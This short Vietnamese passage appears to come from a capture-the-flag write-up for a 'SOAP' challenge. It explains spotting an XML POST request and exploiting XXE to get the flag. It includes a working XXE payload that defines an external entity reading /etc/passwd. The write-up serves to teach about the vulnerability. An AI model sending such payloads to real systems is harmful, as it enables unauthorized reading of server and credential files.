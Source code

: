 Kiểm tra request, chúng ta sẽ thấy đó là một POST request với dữ liệu XML được gửi đi trong body:

![image](images/soap/image-3.png)

Chúng ta có thể nghĩ ngay tới việc khai thác lỗ hổng XXE. Theo như mô tả, mục tiêu của chúng ta là đọc file `/etc/passwd` nên sử dụng payload sau:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE abc [<!ENTITY etc SYSTEM 'file:///etc/passwd'>]>
<data>
    <ID>
      &etc;
    </ID>
</data>
```

Gửi đi request, chúng ta thấy flag nằm trong response:

![image](images/soap/image-4.png)
